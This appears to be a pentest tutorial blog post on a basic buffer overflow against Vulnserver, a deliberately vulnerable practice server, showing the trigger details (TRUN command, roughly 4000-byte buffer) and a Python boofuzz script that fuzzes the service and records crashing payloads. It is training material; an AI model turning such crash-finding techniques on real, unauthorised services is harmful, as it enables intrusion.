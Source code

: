 ```yaml
---
title: Basic buffer overflow
author: Stipe Marinovic
date: 2020-04-30 00:34:00 +0800
categories: [Blogging, Tutorial]
tags: [pentest, ctp, bof]
toc: true
---
```


# Introduction #

Vulnserver is great resource for practicing buffer overflow. Source code can be found on: https://github.com/stephenbradshaw/vulnserver. In this blog post we will cover basic buffer overflow.

#### TLDR; No bad chars, buffer is approx 4000 chars and TRUN . to trigger it. ####

## Fuzzing ##

```
#!/usr/bin/python
import sys
from boofuzz import *

host = '192.168.0.31'      # Server's IP address
port = 9999                # Port on which application is listening
temp = " "                 # Global varialbe to store last sent payload.

# Function receive_banner is used to receive data from socket and detect crash when no resposne is detected
def receive_banner(target, fuzz_data_logger, session, sock):
   global temp 
   data=sock.recv(20000)   # Try to recieve data from socket and if banner is not detected report crash
   if not "Welcome to Vulnerable Server! Enter HELP for help." in data:
      print "\n######################################################\n"
      print "[+] No banner received - application may be crashed"
      print "[+] Payload length: " + str (len(temp))
      print "[+] Payload saved in crash_report.txt"
      print "[+] Fuzzing ended"
      print "\n######################################################\n"
      f = open("crash_report.txt", "w")
      f.write(temp)  # Write payload from temp global variable. Session.last_send containes next sent payload and not the one that crashed the application.
      f.close()
      sys.exit(-1)
   else:
      temp=session.last_send  # If banner is receviced from socket - store last sent payload into temp variable  

def main():

   session = Session(post_test_case_callbacks=[receive_banner], target = Target(connection = SocketConnection(host, port, proto='tcp')))

   s_initialize("TRUN command")
   s_string("TRUN", fuzzable = True)
   s_delim(" ", fuzzable = True)
   s_string("TEST", fuzzable = True)

   session.connect(s_get("TRUN command"))
   session.fuzz()

if __name__ == "__main__":
    main()
 
```
